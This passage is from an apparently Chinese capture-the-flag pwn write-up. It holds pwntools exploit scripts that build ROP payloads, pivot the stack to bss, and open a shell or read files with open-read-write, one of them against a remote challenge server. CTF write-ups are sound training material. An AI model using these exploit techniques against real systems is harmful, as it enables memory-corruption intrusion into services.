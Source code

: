 ```bash
ru('life?\n')
s(b'\n')

pl=p64(bss4+0x30)+p64(pop_r12)+p64(0)+p64(og)
#dbg()
s(pl)

itr()
```

‍

### 黄河流域-Sandbox

同上一题只有 0x10 大小构造，优先考虑栈迁移

泄露 libc 地址后，构造 rop 链来 orw

由于 read 读入空间不够，orw 分两次送入

```bash
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

#r=process('./pwn')
r=remote('1.13.251.106',8002)
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)


pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)
```
